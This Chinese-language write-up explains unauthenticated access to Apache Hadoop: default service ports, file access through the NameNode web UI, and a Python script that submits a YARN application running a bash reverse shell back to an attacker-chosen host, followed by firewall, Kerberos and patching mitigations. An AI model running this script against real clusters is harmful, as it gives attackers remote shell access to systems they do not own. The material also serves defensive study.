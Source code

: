 # Hadoop 未授权访问

> 原文：[http://book.iwonder.run/0day/Hadoop/1.html](http://book.iwonder.run/0day/Hadoop/1.html)

## 一、漏洞简介

> Hadoop 是一款由 Apache 基金会推出的分布式系统框架，它通过著名的 MapReduce 算法进行分布式处理。这个框架被 Adobe，Last fm，EBay，Yahoo 等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在 hadoop 中实现分布式处理：

*   用户创建一个处理键值的 map 函数
*   产生了一套中间键/值
*   reduce 函数合并中间值并把他们关联到对应的键

## 二、影响范围

## 三、复现过程

#### 1\. 扫描探测

##### 1.1 常见端口

![image](img/4994f413cde974988cb7d7bb9ab458aa.png)

##### 1.2 敏感端口

| 模块 | 节点 | 默认端口 |
| --- | --- | --- |
| HDFS | NameNode | 50070 |
| HDFS | SecondNameNode | 50090 |
| HDFS | DataNode | 50075 |
| HDFS | Backup/Checkpoint node | 50105 |
| MapReduce | JobTracker | 50030 |
| MapReduce | TaskTracker | 50060 |

通过访问 NameNode WebUI 管理界面的 50070 端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075 开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS 存储的数据进行操作。

![image](img/93a03230b3c3aec6112000500a19359e.png)

#### 2\. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API 也可以提交任务执行。

利用过程如下：

*   在本地监听等待反弹 shell 连接
*   调用 New Application API 创建 Application
*   调用 Submit Application API 提交

**P 牛的攻击脚本**

```
##!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' ## put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data) 
```

![image](img/723d8a14354a0c78564b2941690236f4.png)

#### 3\. 防范措施

1.  网络访问控制 使用 安全组防火墙 或本地操作系统防火墙对访问源 IP 进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop 服务所有端口发布到互联网。

2.  启用认证功能 启用 Kerberos 认证功能。

3.  更新补丁 不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。

